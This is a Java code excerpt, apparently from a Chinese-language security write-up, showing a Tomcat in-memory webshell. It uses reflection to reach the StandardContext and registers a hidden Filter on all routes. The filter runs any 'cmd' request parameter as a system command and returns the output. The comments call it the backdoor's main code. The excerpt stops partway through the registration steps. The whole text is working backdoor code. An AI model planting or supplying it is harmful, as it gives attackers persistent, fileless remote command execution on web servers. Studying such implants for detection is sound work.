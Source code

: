```java
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                //这里写上我们后门的主要代码
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){

                    InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
//
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);

                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());

        // 将filterDef添加到filterDefs中
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        //拦截的路由规则，/* 表示拦截任意路由
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);
```